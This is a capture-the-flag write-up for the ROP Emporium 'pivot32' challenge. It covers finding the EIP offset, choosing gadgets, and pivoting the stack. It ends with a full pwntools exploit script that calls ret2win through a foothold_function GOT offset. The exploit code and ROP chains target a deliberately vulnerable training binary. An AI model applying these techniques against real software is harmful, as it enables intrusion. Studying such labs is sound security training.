



# pivot32

Link: https://ropemporium.com/challenge/pivot.html

Description: *There's only enough space for a three-link chain on the stack but you've been given space to stash a much larger ROP chain elsewhere. Learn how to pivot the stack onto a new location.*

-----------------------------


## 1. Calculating EIP overwrite offset

We will start checking the offset in the second input is 44, given that with 45 characters the EIP register is overwritten with one character:




## 2. Studying the binary

We will check the addresses of *foothold_function* and *ret2win* in both *pivot32* and *libpivot32* using objdump:


So we know that:

- *foothold_function()* address in *pivot32* is 0x080485f0

- *foothold_function()* address in *libpivot32* is 0x00000770 and *ret2win()* address is 0x00000967, with and offset of **0x1F7**.


## 3. Stack pivoting

We will use ROPgadget to find useful gadgets with:

```
python /root/tools/ROPgadget/ROPgadget.py --binary pivot32
```

We will control ESP in 2 steps:

1. Set EAX to the address which we will parse from the output of the program, using the gadget *0x080488c0 : pop eax ; ret*

2. Swap the values of EAX and ESP with *0x080488c2 : xchg eax, esp ; ret*

The code for parsing the output of the binary and the stack pivoting will be:

```
recv = p.recvuntil("> ")
pivot_address = recv.split("pivot: ")[1].split("\n")[0]
pivot_address_hexa = int(pivot_address, 16)

pop_eax =      0x080488c0
xchg_eax_esp = 0x080488c2

stack_pivot = "A" * 44 + p32(pop_eax) + p32(pivot_address_hexa) + p32(xchg_eax_esp) 
p.sendline(stack_pivot)
```


## 4. Calling ret2win

In this case we wil not leak the addresses as we did in the 64 bits version, because it was not useful in the end. So we will look for similar gadgets which we will use for:

- Move the address of *foothold_function* in .got.plt section to EAX with *0x080488c0 : pop eax ; ret*

- Move 0x1F7 (the offset between *foothold_function* and *ret2win*) to EBX with *0x08048571 : pop ebx ; ret*

- Move the sum EAX+EBX (address of *ret2win* in .got.plt section) in EAX with *0x080488c7 : add eax, ebx ; ret*

- Move the address EAX is pointing to to EAX with *0x080488c4 : mov eax, dword ptr [eax] ; ret*

- Call the function EAX is pointing to (*ret2win*) with *0x080486a3 : call eax*


## 5. Final exploit

The ROP will then be:

```
rop  = ""
rop += p32(foothold_function_PLT)
rop += p32(pop_eax) + p32(foothold_function_GOT)
rop += p32(mov_eax_eax)
rop += p32(pop_ebx) + p32(0x1F7)
rop += p32(add_eax_ebx)
rop += p32(call_eax)
```

Executing it, it shows the content of the flag:



---------------------

---------------------

---------------------


# 2024 update

ltrace shows the two buffers size is 256:


Disassemble main:


Disassemble pwnme to re-check the buffer size is 256 (line +95):


List functions:


List instructions in uselessFunction() and usefulGadgets():


Print .plt and .got.plt instructions for foothold_function():


Get address in the shared library which exports foothold_function() and ret2win():


Set a breakpoint after the first read:


Check what you send gets copied to the address offered by the first message sent by the program:


Information for now:


Code to get the address sent by the program (we will pivot to it):


Craft the exploit:

```
from pwn import *

context(arch='i386', os='linux')
binary_name = 'pivot32'
p = process('./'+binary_name)

elf = ELF(binary_name)
rop = ROP(elf)

out1 = p.recvuntil("> ")
pivot_stack = str(out1).split(": ")[1].split("\\n")[0]
print("Pivot stack address: " + pivot_stack)
pivot_stack = int(pivot_stack, 16)

# Gadgets
xchg_esp_eax = 0x0804882e # xchg esp, eax ; ret
pop_eax =      0x0804882c # pop eax ; ret
defer_eax =    0x08048830 # mov eax, dword ptr [eax] ; ret
add_eax_ebx =  0x08048833 # add eax, ebx ; ret
pop_ebx =      0x080484a9 # pop ebx ; ret
call_eax =     0x080485f0 # call eax

# Addresses
foothold_function_PLT = 0x08048520
foothold_function_GOT = 0x0804a024

rop  = b""
rop += p32(foothold_function_PLT)
rop += p32(pop_eax) + p32(foothold_function_GOT)
rop += p32(defer_eax)
rop += p32(pop_ebx) + p32(0x1F7)
rop += p32(add_eax_ebx)
rop += p32(call_eax)
p.sendline(rop)
recv = (p.recvline())

stack_pivot = b"A" * 44 + p32(pop_eax) + p32(pivot_stack) + p32(xchg_esp_eax) 
p.sendline(stack_pivot)

p.interactive()

```

Get the flag:


